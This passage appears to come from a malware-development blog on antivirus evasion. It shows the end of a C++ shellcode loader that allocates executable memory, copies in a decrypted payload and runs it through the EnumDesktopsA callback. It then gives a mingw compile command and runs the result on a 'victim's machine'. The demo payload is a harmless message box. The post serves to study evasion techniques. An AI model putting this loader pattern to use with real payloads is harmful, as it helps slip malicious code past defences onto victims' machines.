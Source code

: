 ```cpp

  LPVOID mem = VirtualAlloc(NULL, dec_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, dec_payload, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

As usually, use `meow-meow` messagebox payload.       

### demo

Let's go to see everything in action. Compile our "malware":     

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/88/2023-02-13_01-48.png){:class="img-responsive"}      

Then run it at the victim’s machine:    

```powershell
.\hack.exe
```

![av-evasion](/assets/images/88/2023-02-13_01-51.png){:class="img-responsive"}      
